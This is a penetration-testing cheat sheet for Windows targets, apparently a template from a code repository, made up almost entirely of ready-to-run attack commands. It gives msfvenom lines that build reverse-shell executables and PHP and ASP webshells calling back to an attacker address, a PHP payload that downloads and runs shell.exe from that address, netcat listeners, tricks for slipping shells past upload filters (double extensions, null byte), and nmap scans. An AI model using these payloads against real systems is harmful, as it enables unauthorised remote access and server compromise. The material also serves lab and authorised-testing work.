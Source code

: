 # Windows Info Sheet

### Shellcode
```
# Binary
msfvenom -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=4444 -f exe -o shell.exe
nc -lvnp 4444
```
### Webshell
```
# PHP Download Execute
msfvenom -p php/download_exec URL=http://MYIPADDRESS/shell.exe -f raw -o shell.php
msfvenom -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f exe -o shell.exe
python -m SimpleHTTPServer 80
nc -lvnp 443

# PHP
msfvenom -p php/reverse_php LHOST=MYIPADDRESS LPORT=80 -f raw -o shell.php
*use meterpreter multihandler

# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f asp -o shell.asp
nc -lvnp 443

Use burp when trying to upload files. Try shell.php.jpeg and change the content type, modify the upload name, or use a nullbyte
shell.php%00.jpeg
```

### Full TCP Scan
INSERTFULLTCPSCAN
```
nmap -sV -Pn -p1-65535 --max-retries 1 --max-scan-delay 10 --defeat-rst-ratelimit --open -T4 INSERTIPADDRESS
```
### Full UDP Scan
INSERTUDPSCAN
```
nmap -Pn -A -sC -sU -T 4 --top-ports 200 INSERTIPADDRESS
```
### Vuln Scan
INSERTVULNSCAN
```
nmap --script=vuln INSERTIPADDRESS
```
### Other scans
```
Always start with a stealthy scan to avoid closing ports.

# Syn-scan
nmap -sS INSERTIPADDRESS

# Connect to udp if one is open
nc -u INSERTIPADDRESS 48772

# Connect to tcp if one is open
nc -nv INSERTIPADDRESS 5472

# Monster scan
nmap INSERTIPADDRESS -p- -A -T4 -sC

```